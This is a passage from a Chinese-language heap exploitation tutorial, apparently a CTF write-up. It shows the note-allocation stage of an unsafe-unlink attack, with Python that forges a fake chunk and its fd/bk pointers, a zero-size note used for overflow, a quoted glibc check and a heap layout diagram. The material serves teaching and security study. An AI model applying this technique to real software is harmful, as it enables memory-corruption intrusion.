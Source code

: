 #### 生成三个note

构造三个 chunk，chunk0、chunk1 和 chunk2

```python
# chunk0: a fake chunk
ptr = 0x0000000000602120
fakefd = ptr - 0x18
fakebk = ptr - 0x10
content = 'a' * 8 + p64(0x61) + p64(fakefd) + p64(fakebk) + 'b' * 64 + p64(0x60)
#content = p64(fakefd) + p64(fakebk)
newnote(128, content)
# chunk1: a zero size chunk produce overwrite
newnote(0, 'a' * 8)
# chunk2: a chunk to be overwrited and freed
newnote(0x80, 'b' * 16)
```

其中这三个 chunk 申请时的大小分别为0x80，0，0x80，chunk1 虽然申请的大小为0，但是 glibc 的要求 chunk 块至少可以存储 4 个必要的字段(prev\_size,size,fd,bk)，所以会分配 0x20 的空间。同时，由于无符号整数的比较问题，可以为该note输入任意长的字符串。

这里需要注意的是，chunk0 中一共构造了两个 chunk

- chunk ptr[0]，这个是为了 unlink 时修改对应的值。
- chunk ptr[0]'s nextchunk，这个是为了使得 unlink 时的第一个检查满足。

```c
    // 由于P已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致。
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
```

当构造完三个 note 后，堆的基本构造如图1所示。

```
                                   +-----------------+ high addr
                                   |      ...        |
                                   +-----------------+
                                   |      'b'*8      |
                ptr[2]-----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|------------
                                   |    unused       |
                                   +-----------------+
                                   |    'a'*8        |
                 ptr[1]----------> +-----------------+  chunk 1
                                   |    size=0x20    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|-------------
                                   |    unused       |
                                   +-----------------+
                                   |  prev_size=0x60 |
fake ptr[0] chunk's nextchunk----->+-----------------+
                                   |    64*'a'       |
                                   +-----------------+
                                   |    fakebk       |
                                   +-----------------+
                                   |    fakefd       |
                                   +-----------------+
                                   |    0x61         |  chunk 0
                                   +-----------------+
                                   |    'a *8        |
                 ptr[0]----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
```